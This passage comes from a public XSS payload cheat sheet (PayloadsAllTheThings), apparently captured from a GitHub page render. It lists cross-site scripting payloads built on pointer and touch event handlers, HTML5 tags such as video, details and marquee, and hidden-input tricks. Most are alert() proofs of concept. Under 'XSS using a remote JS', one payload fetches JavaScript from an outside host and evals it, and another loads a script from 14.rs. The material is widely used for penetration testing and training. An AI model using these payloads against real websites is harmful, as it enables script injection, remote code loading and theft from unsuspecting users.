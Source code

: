 ```js
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### XSS using HTML5 tags

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-using-html5-tags)

```js
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS using a remote JS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-using-a-remote-js)

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS in Hidden Input

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-hidden-input)

```js
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

in newer browsers : firefox-130/chrome-108

```js
<input type="hidden" oncontentvisibilityautostatechange="alert(1)"  style="content-visibility:auto" >
```
